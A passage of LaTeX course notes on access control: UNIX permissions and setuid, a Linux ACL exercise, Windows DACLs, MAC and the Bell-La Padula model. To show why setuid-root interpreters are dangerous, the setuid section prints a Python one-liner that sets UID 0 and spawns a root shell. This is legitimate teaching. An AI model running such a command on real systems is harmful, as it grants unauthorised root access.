permission bits}: 3 actions (\textbf{r}ead, \textbf{w}rite, e\textbf{x}ecute) $\times$ 3
subjects (\textbf{owner}, \textbf{group}, \textbf{other}). Plus 3 attributes:
\texttt{suid}, \texttt{sgid} and \texttt{sticky}. \\
Different semantics for \textbf{directories}: Read $\to$ list files, Write $\to$ add
files (create, move or rename a file in it), Exec $\to$ traverse the directory (\texttt{cd}).
In practice one cannot read or write the files of a directory without \texttt{x} on it. \\
\textbf{other} = anyone who is neither the owner nor in the file's group.
\end{defnbox}

\begin{exbox}[title=Reading \texttt{ls -l}]
\texttt{drwxrwxr-x 1 catronco catronco 4096 Sep 16 14:23 exampledir} \\
First char: \texttt{d} = directory, \texttt{-} = file; then \texttt{rwx} for owner,
\texttt{rwx} for group, \texttt{r-x} for others; then number of links, owner, group,
size, last modified, filename. \\
Other lines of the slide: \texttt{-rwxrwxrw- \ldots hello} (a file, owner and group may run it,
others read and write), \texttt{-rw-rw--w- \ldots test1.txt} (others may write but not
read). \\
The owner changes permissions with \texttt{chmod}: \texttt{+r}, \texttt{-w},
octal \texttt{666}, \texttt{662}, sticky \texttt{+t} or \texttt{1666}, suid
\texttt{+s} or \texttt{4666}.
\end{exbox}

\begin{algbox}[title=UNIX access control in action]
Compare the \texttt{UID}/\texttt{GID} of the \textbf{process} trying to perform the
action with the state of the file (owner, group, mode bits). \textbf{Order matters}:
\begin{enumerate}
  \item if the \texttt{UID} says you are the owner: check the bits for \textbf{owner};
  \item if not owner, but your group is the file's group: check the bits for
        \textbf{group};
  \item otherwise check the bits for \textbf{other}.
\end{enumerate}
The \texttt{root} user is \textbf{never denied access}.
\end{algbox}

\begin{warnbox}[title=Order matters]
Only \emph{one} class of bits is checked: an owner with \texttt{---} for owner but
\texttt{rwx} for group is denied, even if they are in the group.
\end{warnbox}

\begin{goatbox}
Every UNIX file has a tiny label with three boxes: what its owner may do, what its group may do,
what everybody else may do (each box: read, write, run). The guard looks at the goat: owner? use
the first box. Not owner but in the group? the second. Otherwise the third. Only one box is ever
read. And root, the farmer, walks through every door.
\end{goatbox}

\subsection{Special users and bits}

\begin{defnbox}[title=Super user (\texttt{root})]
Special user account with \textbf{User ID 0}: accesses system files and special
operations, can access anything ((almost) all security checks disabled).
\textbf{\texttt{root} is in the TCB!} \\
\textbf{Never login as root} (some distributions give root no password): use
\texttt{sudo} (run \emph{one} command as root) or \texttt{su} (switch to another user, root by
default --- dangerous, since nothing you do afterwards is checked). \texttt{sudo su catronco}:
use your sudo rights to become user \texttt{catronco} without knowing their password. Normal users
still need system services that run with system privileges: hence \texttt{suid}.
\end{defnbox}

\begin{defnbox}[title=\texttt{suid} / \texttt{sgid}]
Setuid and setgid bits indicate that a file is \textbf{not run with the privileges of
the launcher}, but \textbf{with the privileges of the owner} user/group. Useful for
normal users to access system services that need system privileges, respecting least
privilege, e.g.\ changing a password:
\texttt{-rwsr-xr-x 1 root root \ldots /bin/passwd}. When the program ends, the privileges go back
to normal.
\end{defnbox}

\begin{warnbox}[title=Setuid root programs are dangerous]
They are in the TCB: how do you know that a \texttt{suid} program does what it is meant
to do, and \emph{only} what it is meant to do? (e.g.\ a setuid-root \texttt{python}
gives root to anyone.)
\end{warnbox}

\begin{exbox}[title=Why a setuid-root program is dangerous]
\begin{itemize}
  \item It runs as \textbf{root whoever launches it}, and the launcher controls its
        inputs (arguments, environment, file names). A single bug (buffer overflow, path
        trick, command injection) gives the attacker \textbf{root}: a
        \textbf{confused deputy}.
  \item A \textbf{general-purpose} program must never be setuid root: with
        \texttt{-rwsr-xr-x root python}, anyone can run
        \texttt{python -c 'import os; os.setuid(0); os.system("/bin/sh")'} and get a
        root shell. (The \texttt{python2.7} of the slide is \texttt{-rwxr-xr-x}, no
        \texttt{s}: it is \emph{not} setuid, it shows what to avoid.)
  \item It breaks \textbf{least privilege}: full root power for one small action.
\end{itemize}
\textbf{Mitigation}: few setuid-root programs, small and audited (economy of mechanism,
like \texttt{/bin/passwd}); drop privileges once the privileged step is done; prefer
finer-grained rights (Linux capabilities, \texttt{sudo} limited to one command); never
make an interpreter or an editor setuid.
\end{exbox}

\begin{defnbox}[title=Sticky bit]
``Restricted deletion bit'' (\texttt{chmod +t}).
\begin{itemize}
  \item \textbf{Directories}: prevents unprivileged users from removing or renaming a
        file in the directory \textbf{unless they own the file} (e.g.\ \texttt{/tmp}:
        users can only edit their own files).
  \item \textbf{Files}: historically prevented a program from being moved from swap
        for fast load; Linux currently ignores the bit.
\end{itemize}
On \texttt{/tmp} (shared by all users, e.g.\ for downloads) the sticky bit ensures that only a
file's owner (or root) can delete or rename it.
\end{defnbox}

\begin{defnbox}[title=Nobody]
Special user (\textbf{User ID $-2$}) that owns no files and belongs to no user. Safer
user to execute code you do not know (particularly obfuscated code): limits damages if it
misbehaves / gets compromised. It is a way to \textbf{sandbox} programs: even if the program is
malicious and takes control of its user, it gains no privileges. (Further reading: ``Setuid
demystified'', 2002; ``Jails: confining the omnipotent root'', 2000.)
\end{defnbox}

\begin{goatbox}
\texttt{suid}: a program that wears its owner's hat while it runs, whoever starts it. The
password-change program wears root's hat so that any goat can change \emph{its own} password in
the farmer's book. Dangerous if the program can be tricked into writing anything else in the
book. Sticky bit: in the shared shed (\texttt{/tmp}), you may only throw away your own things.
Nobody: a goat with no name and no belongings, to run strangers' programs safely.
\end{goatbox}

\subsection{Exercise}

\begin{exbox}[title={Exercise --- ACL in Linux}]
\texttt{drwxr-x--- 2 manager\_A core\_devs 4096 Sep 24 11:35 /project\_beta} \\
\textbf{manager\_A} is the directory owner, a member of \texttt{core\_devs}, and is
sudo; \textbf{developer\_B} is a member of \texttt{core\_devs}; \textbf{intern\_C} is
\textbf{not} a member of \texttt{core\_devs}. \\
For each user, determine which of \texttt{cd /project\_beta}, \texttt{ls /project\_beta}
and \texttt{touch /project\_beta/<file>} succeed or fail, and explain why based on the DAC
rules. \\[4pt]
Same state, with a new subdirectory and a file inside it: \\
\texttt{drwxr-xr-x 2 developer\_B core\_devs 4096 Sep 24 12:00 /project\_beta/Foo} \\
\texttt{-rw-r--r-- 1 developer\_B core\_devs 512 Sep 24 12:05 \ldots/Foo/intern\_project.txt}
\begin{enumerate}[label=Q\arabic*:]
  \item \texttt{/project\_beta} is owned by manager\_A, but \texttt{Foo} is owned by
        developer\_B. Find a scenario (sequence of commands) that would have led to this
        situation.
  \item intern\_C runs \texttt{cd /project\_beta/Foo} then
        \texttt{cat intern\_project.txt}. Do they work?
  \item intern\_C runs \texttt{cat /project\_beta/Foo/intern\_project.txt} from their
        home directory. Does it work?
  \item Who do they need to contact to fix the problem?
\end{enumerate}
\end{exbox}

\begin{algbox}[title={Solution --- ACL in Linux}]
\texttt{/project\_beta} is \texttt{drwxr-x---}, i.e.\ owner \texttt{rwx}, group
\texttt{r-x}, other \texttt{---}. Only \emph{one} class is
checked (owner, else group, else other). On a directory: \texttt{r} = list (\texttt{ls}),
\texttt{w} = create/delete files (\texttt{touch} of a new file), \texttt{x} = traverse
(\texttt{cd}).
\begin{center}
\begin{tabular}{l|l|c|c|c}
 & class used & \texttt{cd} (\texttt{x}) & \texttt{ls} (\texttt{r}) & \texttt{touch} (\texttt{w}) \\ \hline
manager\_A   & owner: \texttt{rwx}   & OK     & OK     & OK     \\
developer\_B & group: \texttt{r-x}   & OK     & OK     & denied \\
intern\_C    & other: \texttt{---}   & denied & denied & denied
\end{tabular}
\end{center}
\begin{itemize}
  \item \textbf{manager\_A} is the owner: the owner bits apply (being sudo is not
        needed).
  \item \textbf{developer\_B} is not the owner but is in \texttt{core\_devs}: the group
        bits apply; no \texttt{w} $\Rightarrow$ cannot create \texttt{notes.txt}.
  \item \textbf{intern\_C} falls in ``other'' (\texttt{---}): everything is denied.
\end{itemize}
\textbf{Q1:} developer\_B cannot create files in \texttt{/project\_beta} (group has no
\texttt{w}). The lecture's answer: a normal, deliberate situation created by a superuser (root,
or manager\_A with sudo), who created the directory and transferred its ownership:
\texttt{sudo mkdir /project\_beta/Foo; sudo chown developer\_B /project\_beta/Foo} --- delegating
part of the project without giving away the parent directory. (Another scenario: manager\_A runs
\texttt{chmod g+w /project\_beta}, developer\_B runs \texttt{mkdir Foo} and creates the file, then
manager\_A runs \texttt{chmod g-w /project\_beta}.) \\
\textbf{Q2:} no. \texttt{cd /project\_beta/Foo} fails: intern\_C has no \texttt{x} on
\texttt{/project\_beta} (``other'' is \texttt{---}). \texttt{Foo} being \texttt{r-x} for
others does not help: \textbf{every directory on the path} must be traversable. The
\texttt{cat} then runs from the unchanged working directory and does not find the file. \\
\textbf{Q3:} no, same reason: \texttt{Permission denied} on \texttt{/project\_beta}, even
though the file itself is world-readable (\texttt{r--}). \\
\textbf{Q4:} \textbf{manager\_A}, the owner of \texttt{/project\_beta} (and sudo):
developer\_B owns \texttt{Foo} but not the parent directory. manager\_A can add intern\_C
to \texttt{core\_devs} (least-privilege-wise better than \texttt{chmod o+x}, which would
open the directory to everybody).
\end{algbox}

\begin{rembox}[title={Open question of the slides: what about links? (answer not in the slides)}]
A \textbf{symbolic link} is only a path: following it, the system checks the permissions of the
target \emph{and} \texttt{x} on every directory of the target's path, so a symlink placed in
intern\_C's home does not help. A \textbf{hard link} is another name for the same file (same
inode, same permission bits): if one existed in a directory intern\_C can traverse, intern\_C
could read the world-readable file without crossing \texttt{/project\_beta}. That is why modern
Linux only lets you create a hard link to a file you own or can read and write
(\texttt{protected\_hardlinks}).
\end{rembox}

\section{DAC in practice: Windows}

\begin{defnbox}[title=Windows access control]
Principals = users, machines, groups, \ldots; objects = files, registry keys, printers,
\ldots
\begin{itemize}
  \item Each object has a \textbf{Discretionary Access Control List (DACL)}.
  \item Each process (or thread) has an \textbf{access token} with: the login user
        account (the process ``runs as'' this user), all groups of which the user is a
        member (recursively!), all privileges assigned to these groups.
\end{itemize}
The DACL is compared with the process' access token \textbf{when creating a handle to the
object}: if there is no permission, no handle is given.
\end{defnbox}

\begin{defnbox}[title=DACL]
A list of \textbf{Access Control Entries (ACEs)}, each with a \textbf{type}
(negative/positive, i.e.\ access denied/allowed), a \textbf{principal}, and
\textbf{permissions} (more fine-grained than UNIX), plus flags and others. Negative
entries come \textbf{first} so that a denial cannot be bypassed by an earlier allow.
\end{defnbox}

\begin{exbox}[title=DACL evaluation]
ACE1: \textit{deny} Andrew read/write/execute; ACE2: \textit{allow} Group A write; ACE3:
\textit{allow} Everyone read/execute. Thread A (Andrew, groups A, B, C) is denied by ACE1.
Thread B (Jane, group A) is granted write (ACE2) and read/execute (ACE3).
\end{exbox}

\begin{rembox}[title=Least privilege by default]
Windows runs with least privilege by default; elevated rights require
``Run as administrator''.
\end{rembox}

\begin{goatbox}
Windows does the same as UNIX with longer labels: each object has a list of lines ``allow / deny,
who, what'' (deny lines first, so a ``no'' is never skipped), and each running program carries a
badge with its user, all its groups and their privileges. The guard compares badge and list once,
when the program asks to open the object.
\end{goatbox}

\section{Mandatory Access Control (MAC)}

\begin{defnbox}[title=Mandatory Access Control (MAC)]
A \textbf{central security policy} assigns the permissions, and \textbf{users cannot
override it}, even for what they created. Used by organizations with a need for central
controls.
\end{defnbox}

\begin{exbox}[title=Where is MAC used?]
\begin{itemize}
  \item \textbf{Military} --- focus on \textbf{confidentiality} (classification levels:
        a document is readable only by users with a high enough clearance, whatever its
        owner wants).
  \item \textbf{Hospital} --- focus on \textbf{confidentiality and integrity} (records
        unchanged, and seen only by those who need them to treat the patient). The
        hospital owns the patient records and limits their sharing; regulatory
        requirements (e.g.\ \textbf{HIPAA} for health information) may limit it further.
  \item \textbf{Banking} --- focus on \textbf{integrity} (e.g.\ whoever enters a transfer
        cannot approve it).
\end{itemize}
In the military, integrity matters too but less: better that battle plans be corrupted or
deleted than leaked to the enemy. In a bank, leaking someone's earnings is bad press, but
modifying the records to move money is critical. \textbf{Modern access control systems are a
hybrid of DAC and MAC.}
\end{exbox}

\section{DAC vs.\ MAC}

\begin{center}
\begin{tabularx}{\linewidth}{@{}l X X@{}}
\toprule
 & \textbf{DAC} & \textbf{MAC} \\
\midrule
Who sets the permissions & The \textbf{owner} of the object & A \textbf{central authority} (the policy) \\
Can a user change them?  & Yes, for what they own         & No, even for what they created \\
Typical use & Windows, Linux, macOS, social networks & Military, hospitals, banking \\
\bottomrule
\end{tabularx}
\end{center}

\begin{rembox}[title=It is not a question of scale]
What separates them is \textbf{who has the authority to decide}, not the size of the
system: a huge system can be DAC (a social network), a small one MAC. Test: if Alice
creates a file, can she decide by herself who may read it? Yes $\Rightarrow$ DAC; no,
the policy decides $\Rightarrow$ MAC.
\end{rembox}

\begin{goatbox}
DAC: each goat decides who may use \emph{its} things. MAC: the farm has one rule book, and no goat
can change it, not even for things it made itself.
\end{goatbox}

\section{Summary}

\begin{keybox}[title=Summary]
\begin{itemize}
  \item \textbf{Discretionary Access Control}: owners establish permissions (in
        \textbf{MAC}, a central policy does).
  \item Conceptualized as an \textbf{access control matrix}.
  \item Implemented in two flavors: \textbf{access control lists} (permissions
        associated to objects) and \textbf{capabilities} (permissions associated to
        subjects).
  \item When relying on access control, always think about \textbf{confused deputies}.
\end{itemize}
\end{keybox}

\begin{recapbox}[title={Exam-ready recap --- Lecture 3: Access control basics and DAC}]
\textbf{Access control} = the mechanism ensuring every (principal, object, action) is within the
policy; answer: authorized / denied. First line of defence, everywhere (apps, DBMS, OS,
hardware). \textbf{Authentication} binds the actor to a principal, \textbf{authorization} (access
control) decides; both in the TCB.
\begin{itemize}
  \item \textbf{Implementation}: no ``checks soup''; calls to a central \textbf{reference monitor}
        (economy of mechanism + complete mediation, at the cost of least common mechanism).
  \item \textbf{DAC}: the \textbf{owner} decides. \textbf{MAC}: a \textbf{central policy}
        decides, users cannot override (military: C; hospital: C+I; bank: I). Test: can the
        creator decide alone who reads? Not a question of scale. Real systems: hybrids.
  \item \textbf{Access control matrix} (Lampson): subjects $\times$ objects $\to$ rights.
        Abstract only: $O(f \cdot u)$, sparse, slow, not extensible.
  \item \textbf{ACL} = column, stored with the object: easy ``who can access $o$'', easy revoke
        per object; hard ``what can $s$ do'', hard to remove a user, hard delegation.
        \textbf{Capabilities} = row, stored with the subject: portable, easy audit and
        delegation; hard revocation, transferability, authenticity.
  \item \textbf{Groups}: subject gets the \emph{union} of all its groups;
        \textbf{negative permissions checked first} (fail-safe). \textbf{RBAC}: permissions
        $\to$ roles $\to$ subjects, \emph{one active role} (least privilege); problems: role
        explosion, limited expressiveness, separation of duty.
  \item \textbf{Ambient authority}: the subject is implicit (\texttt{open("f","rw")} runs as the
        process owner) $\Rightarrow$ \textbf{confused deputy}: a privileged program tricked into
        using its rights for someone else (pay-per-use compiler writing errors into
        \texttt{bill}; professor's badge). Fixes: AC inside the deputy, deputy checks the
        caller, \textbf{capabilities} (no ambient authority).
  \item \textbf{UNIX}: UIDs/GIDs, \texttt{/etc/passwd}, everything is a file, owner sets
        permissions (\texttt{chmod}) but cannot give ownership; 9 bits rwx $\times$
        owner/group/other; on directories r = \texttt{ls}, w = create, x = \texttt{cd} (needed
        on \emph{every} directory of the path). \textbf{Only one class checked}: owner, else
        group, else other; root (UID 0, in the TCB) never denied. \texttt{suid/sgid}: run with
        the \emph{owner's} privileges (\texttt{passwd}; dangerous, in the TCB); sticky bit: only
        the owner deletes/renames in the directory (\texttt{/tmp}); nobody (UID $-2$): sandbox.
  \item \textbf{Windows}: DACL of ACEs (deny first) per object, access token per process (user,
        groups recursively, privileges), checked when creating a handle; least privilege by
        default.
\end{itemize}
\textbf{How it builds on what came before}: access control is the first \emph{mechanism} (Lecture
1) that enforces a \emph{policy} on principals and assets, and it is the principles of Lecture 2
in action: the reference monitor is \textbf{complete mediation} (with a small TCB:
\textbf{economy of mechanism}), negative permissions first and whitelists are \textbf{fail-safe
defaults}, active roles and need-to-know are \textbf{least privilege}, two distinct doctors is
\textbf{separation of privilege}, setuid programs and the confused deputy show what happens when
a privileged component is in the TCB. Next lecture: MAC, where the policy itself is designed with
models.
\end{recapbox}

% =========================================================
\chapter{Lecture 4 : Mandatory Access Control}
% =========================================================

\begin{rembox}[title=In a nutshell]
\textbf{What is this lecture about?} In \textbf{MAC}, it is not the owner but a
\textbf{central policy} that decides, and nobody can override it. We study three classic
``recipes'' (security models): \textbf{Bell-La Padula} to keep secrets from leaking down
(army: no read up, no write down), \textbf{BIBA} to keep bad data from corrupting good
data (bank: no read down, no write up), and the \textbf{Chinese Wall} to avoid conflicts
of interest (a consultant cannot work for Pepsi and Coca-Cola). \\
\textbf{Why is it useful?} When an organization must guarantee a property no matter what
users do (military secrets, bank records, hospitals), these models give a ready-made,
proven design. They also explain deep real-world problems: hidden leaks (\emph{covert
channels}), why declassifying documents is hard, and why unchecked user input
(\emph{sanitization}) causes SQL injections and buffer overflows.
\end{rembox}

\begin{defnbox}[title=Mandatory Access Control (MAC)]
Access to and operations on resources \textbf{are determined by the security policy}
(a central security policy assigns permissions):
\begin{itemize}
  \item the ``owner'' may not exist, or may not have the power to set permissions
        against the policy;
  \item the security policy \textbf{must} be enforced despite subjects trying to
        subvert it.
\end{itemize}
\end{defnbox}

\begin{rembox}[title=Reminder: DAC vs.\ MAC]
In DAC, owners have all powers on the objects they create. In MAC, the policy is given: there may
be no ``object owners'' at all, and even the creator of an object cannot set its permissions,
only assign the rights dictated by the policy. (A theoretical lecture: concepts that outlast
technology.)
\end{rembox}

\begin{defnbox}[title=Security model]
A \textbf{design pattern} for a specific security property or set of properties. When
faced with a standard security problem $\to$ use a well-known model! \\
A model is \textbf{not} a policy nor a mechanism: it is a way of reasoning to build policies that
ensure the properties. The details of the policy must still be defined by the engineer, and
following the pattern carelessly does not guarantee security.
\end{defnbox}

\begin{warnbox}[title=The devil is in the details]
Many aspects are \textbf{not covered by the model}: who are the subjects? what are the
objects? what mechanisms to use to implement it?
\end{warnbox}

\begin{goatbox}
In MAC the farm's rule book decides, not the goats. Rather than inventing a rule book from
scratch, you copy a well-known recipe (a model) made for your problem: one recipe for keeping
secrets, one for keeping things clean, one for not working for two rivals. The recipe tells the
shape of the rules; you still have to decide who the goats and buckets are.
\end{goatbox}

\section{Bell-La Padula (BLP): protecting confidentiality}

\begin{defnbox}[title=Bell-La Padula model (BLP)]
Subjects $S$ and objects $O$ are associated to a \textbf{level} of confidentiality.
Subjects' access rights are defined (in an access control matrix) by four attributes:
\begin{itemize}
  \item \textbf{Execute} --- the subject cannot see or modify the object, but can run it;
  \item \textbf{Read} --- the subject can only see the object but cannot modify it;
  \item \textbf{Append} --- the subject cannot read the object, but can attach new
        content;
  \item \textbf{Write} --- the subject can see the object and add content or modify
        existing content.
\end{itemize}
\end{defnbox}

\begin{rembox}[title=Observe vs.\ alter]
\textbf{Observe} rights: read ($r$), write ($w$). \textbf{Alter} rights: append ($a$),
write ($w$). Write is both observe and alter.
\end{rembox}

\begin{defnbox}[title=State of a BLP system]
At any time, the state is: (1) the \textbf{levels} of subjects (clearance) and objects
(classification); (2) the \textbf{access control matrix} giving the attributes of each subject on
each object; (3) the \textbf{current accesses} (which subject accesses which object with which
right) authorized at that time.
\end{defnbox}

\subsection{Security levels and dominance}

\begin{defnbox}[title=Security level (classification of objects)]
Objects are associated to a \textbf{security level}: they have a \textbf{label} and
belong to one or more \textbf{categories}.
\[
  \text{Security level} = (\text{Classification}, \{\text{set of categories}\})
\]
\begin{itemize}
  \item \textbf{Classification} --- \textbf{total order} of labels (e.g.\
        Unclassified $<$ Confidential $<$ Secret $<$ Top Secret).
  \item \textbf{Categories} --- compartments of objects with a common topic (e.g.\
        Nuclear, NATO, Crypto).
\end{itemize}
\end{defnbox}

\begin{defnbox}[title=Dominance relationship]
A security level $(l_1, c_1)$ \textbf{dominates} $(l_2, c_2)$ \textbf{if and only if}
\[
  l_1 \geq l_2 \quad\text{and}\quad c_2 \subseteq c_1 .
\]
\end{defnbox}

\begin{exbox}[title={Exercise --- Dominance}]
Labels: Admin $<$ Nurse $<$ Surgeon $<$ Doctor; categories: DEMOGRAPHICS, ANALYSIS,
RESULTS. Which statements are true?
\begin{itemize}
  \item $(D, \{\})$ dominates $(S, \{\})$
  \item $(S, \{\})$ dominates $(N, \{\text{RESULTS}\})$
  \item $(S, \{\text{DEMOGRAPHICS}, \text{RESULTS}\})$ dominates
        $(N, \{\text{DEMOGRAPHICS}\})$
  \item $(D, \{\text{ANALYSIS}, \text{RESULTS}\})$ dominates
        $(S, \{\text{DEMOGRAPHICS}\})$
\end{itemize}
What level dominates them all? What level dominates only itself? \\[3pt]
\textbf{Solution.}
\begin{itemize}
  \item $(D, \{\})$ dom.\ $(S, \{\})$: \textbf{true} (Doctor $>$ Surgeon, $\{\} \subseteq \{\}$).
  \item $(S, \{\})$ dom.\ $(N, \{\text{RESULTS}\})$: \textbf{false}: S $>$ N, but this nurse sees
        RESULTS and the surgeon does not ($\{\text{RESULTS}\} \not\subseteq \{\}$).
  \item $(S, \{\text{DEM}, \text{RES}\})$ dom.\ $(N, \{\text{DEM}\})$: \textbf{true} (higher label,
        and more categories).
  \item $(D, \{\text{ANA}, \text{RES}\})$ dom.\ $(S, \{\text{DEM}\})$: \textbf{false}: higher
        label, but the surgeon sees DEMOGRAPHICS (different information): no relation.
\end{itemize}
Top (dominates all): $(\text{Doctor}, \{\text{DEMOGRAPHICS}, \text{ANALYSIS},
\text{RESULTS}\})$. Bottom (dominates only itself): $(\text{Admin}, \{\})$.
\end{exbox}

\begin{goatbox}
Each paper gets a stamp: a height (how secret) and a set of colours (which topics). You may look
at a paper only if your badge is at least as high \emph{and} has all the paper's colours. A
higher badge with a missing colour is not enough: a general without the ``Nuclear'' colour cannot
read a Nuclear paper.
\end{goatbox}

\begin{propbox}[title=Dominance lattice]
Three key properties:
\begin{enumerate}[label=(\alph*)]
  \item dominates is \textbf{transitive};
  \item there are \textbf{top and bottom} elements;
  \item it is only a \textbf{partial} order: two levels may be incomparable (e.g.\
        $(S, \{\text{Crypto}\})$ and $(S, \{\text{Nuclear}\})$).
\end{enumerate}
\begin{center}

\begin{tikzpicture}[x=2.6cm, y=1.1cm, every node/.style={font=\small}]
  \node (top) at (0,3)    {$(S, \{Cr, Nu\})$};
  \node (sc)  at (-1,2)   {$(S, \{Cr\})$};
  \node (sn)  at (0,2)    {$(S, \{Nu\})$};
  \node (ccn) at (1,2)    {$(C, \{Cr, Nu\})$};
  \node (s0)  at (-1,1)   {$(S, \{\})$};
  \node (cc)  at (0,1)    {$(C, \{Cr\})$};
  \node (cn)  at (1,1)    {$(C, \{Nu\})$};
  \node (bot) at (0,0)    {$(C, \{\})$};
  \draw (top) -- (sc); \draw (top) -- (sn); \draw (top) -- (ccn);
  \draw (sc) -- (s0);  \draw (sn) -- (s0);
  \draw (sc) -- (cc);  \draw (sn) -- (cn);
  \draw (ccn) -- (cc); \draw (ccn) -- (cn);
  \draw (s0) -- (bot); \draw (cc) -- (bot); \draw (cn) -- (bot);
\end{tikzpicture} \\
{\small Labels $C < S$, categories Crypto, Nuclear: a higher node dominates every node
reachable downwards.}
\end{center}
Transitivity example: $(S, \{Cr, Nu\})$ dom.\ $(S, \{Nu\})$ and $(S, \{Nu\})$ dom.\ $(C,
\{Nu\})$, so $(S, \{Cr, Nu\})$ dom.\ $(C, \{Nu\})$. No relation: $(S, \{Nu\})$ and $(S,
\{Cr\})$.
\end{propbox}

\begin{defnbox}[title=Clearance of subjects]
\begin{itemize}
  \item \textbf{Clearance} --- maximum security level a subject has been assigned:
        $\text{level}(S_i)$ (BLP also calls this ``classification'').
  \item \textbf{Current security level} --- subjects can operate at lower security
        levels: $\text{current-level}(S_i)$.
\end{itemize}
$\text{level}(S_i)$ \textbf{must dominate} $\text{current-level}(S_i)$!
\end{defnbox}

\subsection{The three BLP properties}

\begin{defnbox}[title=Simple security property (ss-property) --- No Read Up]
If (subject, object, $r$) is a current access, then $\text{level}(\text{subject})$
\textbf{dominates} $\text{level}(\text{object})$. \\
$\Rightarrow$ \textbf{No Read Up (NRU)}: a subject cleared Secret can read Secret,
Classified, Unclassified, but not Top Secret.
\end{defnbox}

\begin{warnbox}[title=Why is the ss-property not sufficient?]
A Secret subject runs \textbf{malicious code} (Trojan) that reads Secret data (allowed
by NRU) and \textbf{writes it into an Unclassified object}, which an Unclassified subject
then reads (also allowed by NRU). Information flowed \textbf{down} without any read-up.
\end{warnbox}

\begin{goatbox}
``No read up'' alone is like forbidding small goats to open the big goats' letters, but letting
big goats copy their letters onto the small goats' wall. The secret still goes down. So we also
need ``no write down''.
\end{goatbox}

\begin{defnbox}[title=Star property (*-property) --- No Write Down]
If a subject has simultaneous ``\textbf{observe}'' ($r$, $w$) access to $O_1$ and
``\textbf{alter}'' ($a$, $w$) access to $O_2$, then $\text{level}(O_2)$
\textbf{dominates} $\text{level}(O_1)$. \\
$\Rightarrow$ \textbf{No Write Down (NWD)}: a Secret subject can append to Top Secret,
read Secret and below, but cannot append/write to lower levels. \\
Since NRU forbids reading higher levels, writing higher can only be \textbf{appending} (blind
writes); writing (observe + alter) is only possible at the subject's own level.
\end{defnbox}

\begin{defnbox}[title=Discretionary property (ds-property)]
If an access (subject, object, action) takes place, it \textbf{must be in the access
control matrix}. \\
Information should only be accessed on a \textbf{``need-to-know''} basis: MAC needs
\textbf{DAC} (least privilege inside the security level). Also important to protect
integrity: the matrix can forbid subjects from writing objects.
\end{defnbox}

\begin{exbox}[title=BLP in the army]
\begin{itemize}
  \item An Unclassified soldier reports ``We've seen tanks moving!'' to a Secret
        officer: \textbf{allowed} (write up).
  \item The Secret officer reads a Secret document: \textbf{allowed} (read at clearance
        level).
  \item The Secret officer orders ``Attack!'' to the Unclassified soldier: \textbf{not
        allowed} (write down, against the *-property).
\end{itemize}
\end{exbox}

\begin{thmbox}[title=Basic Security Theorem]
If all state transitions are \textbf{security preserving}, and the \textbf{initial state
is secure}, then every subsequent state is secure \textbf{regardless of the inputs}. \\
If, for any individual access, (1) the ss-property, (2) the *-property and (3) the
ds-property are preserved, then security holds for any sequential composition: a
system can be analyzed in terms of \textbf{single-step transitions} of states (not
surprising: it is an induction).
\end{thmbox}

\begin{goatbox}
Three rules: do not read above your badge, do not write below what you read, and on top of that
only touch what the table says you need. If the farm starts in a safe state and every single
step respects the three rules, it stays safe forever: you only ever need to check one step at a
time.
\end{goatbox}

\subsection{Covert channels}

\begin{exbox}[title={What are the transitions, and what does ``read'' mean?}]
$\text{level}(s_1) = TS$, $\text{level}(s_2) = C$.
\begin{enumerate}
  \item $s_2$ creates $o_2$, so $\text{level}(o_2) = C$;
  \item $s_1$ reads $C$ and either raises the object level to $TS$ or leaves it at $C$;
  \item $s_2$ attempts to access $o_2$: \textbf{success or failure leaks 1 bit of
        information} from $TS$ to $C$!
\end{enumerate}
Every step is allowed: $s_2$ does not write down when creating $o_2$; $s_1$ sets its
\emph{current} level to $C$ and reads $o_2$ (no read up); BLP says nothing about changing an
object's level; $s_2$ reads at its own level. Yet $s_1$ can tell $s_2$ in advance: ``when the troops
move, $o_2$ will disappear''.
\end{exbox}

\begin{defnbox}[title=Covert channel]
Any channel that allows \textbf{information flows contrary to the security policy}.
\begin{itemize}
  \item \textbf{Storage channels} --- e.g.\ shared counters, ID fields, file
        metadata, etc.
  \item \textbf{Timing channels} --- e.g.\ use of CPU, load to memory (cache), queuing
        time, etc.
\end{itemize}
\end{defnbox}

\begin{propbox}[title=Covert channels and least common mechanism]
\textbf{The more resources are shared, the harder it is to eliminate covert channels}
(principle 7, least common mechanism): covert channels exist because subjects of different levels
share resources. \\
\textbf{Mitigation}: isolation (communication with low level not possible) or adding
noise to the communication.
\begin{itemize}
  \item Hard to achieve less than 1 bit/sec.
  \item OK for documents, \textbf{NOT} OK for cryptographic keys (DoD policy:
        cryptographic keys must always be stored on dedicated hardware).
\end{itemize}
Isolation is impractical (working without any acknowledgement from the high level is very hard);
noise (fake interactions) hides the real channel. Neither eliminates covert channels, they only
slow them down. At 1 bit/s, a 3 Mb document takes more than 1000 hours, but a 512-bit symmetric
key leaks in about 8 minutes and a 2048-bit asymmetric key in about 34 minutes: hence keys live in
dedicated secure hardware with very limited APIs.
\end{propbox}

\begin{goatbox}
Even if no goat ever passes a letter down, two goats can agree on a signal: ``if the bucket is
gone tomorrow, the fox is coming''. Anything shared (a bucket, the time the gate takes to open,
how busy the barn is) can carry such signals. You cannot close all of them; you can only make
them very slow --- slow is fine for a long letter, not for a short password.
\end{goatbox}

\subsection{Declassification}

\begin{defnbox}[title=Declassification]
\textbf{Remove the classification label} of an object. It is very typical and necessary
(e.g.\ the officer must eventually be able to tell the soldier ``Attack!''), and happens
\textbf{under the control of the security policy}.
\end{defnbox}

\begin{warnbox}[title=Declassification cannot be made inherently safe]
It is a \textbf{manual process} (rules about archives, historical records) and it is hard
to rule out covert channels: how to know the object does not contain secrets? In
practice: Word revision history retains deleted text; PDF ``redaction'' by overlaying
black rectangles leaves the text in the file. Mosaicing and blurring are also ineffective
for redaction. \textbf{Strategic adversary!}
\end{warnbox}

\begin{warnbox}[title=BLP limitations]
\begin{itemize}
  \item \textbf{Confidentiality-oriented}: does not consider integrity or availability.
  \item \textbf{State-based + single transition} model: too low-level, not expressive.
